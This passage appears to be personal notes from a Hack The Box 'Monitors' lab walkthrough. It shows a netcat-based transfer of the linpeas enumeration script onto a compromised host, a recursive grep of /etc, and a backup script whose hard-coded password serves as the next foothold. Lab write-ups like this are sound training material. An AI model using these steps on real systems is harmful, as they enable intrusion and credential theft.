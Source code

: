 # Transfer Linpeas Using NC

curl and wget are not available on the server, but nc is.

**On the server**

```bash
nc -l -p 9001 > linpeas.sh
```

**On our Machine** 

```bash
nc -w 3 monitors.htb 9001 < linpeas.txt
```

**Back to the Server**

```bash
www-data@monitors:/tmp$ chmod +x linpeas.sh
www-data@monitors:/tmp$ ./linpeas.sh > peas.txt

www-data@monitors:/tmp$ grep 'marcus' /etc -R 2>/dev/null
```

![[Pasted image 20210606195700.png]]


**On /etc/systemd/system/cacti-backup.service**

```bash
$cat cacti-backup.service 

[Unit]
Description=Cacti Backup Service
After=network.target

[Service]
Type=oneshot
User=www-data
ExecStart=/home/marcus/.backup/backup.sh

[Install]
WantedBy=multi-user.target
```

```bash
$cat /home/marcus/.backup/backup.sh

#!/bin/bash

backup_name="cacti_backup"
config_pass="VerticalEdge2020"

zip /tmp/${backup_name}.zip /usr/share/cacti/cacti/*
sshpass -p "${config_pass}" scp /tmp/${backup_name} 192.168.1.14:/opt/backup_collection/${backup_name}.zip
rm /tmp/${backup_name}.zip
``` 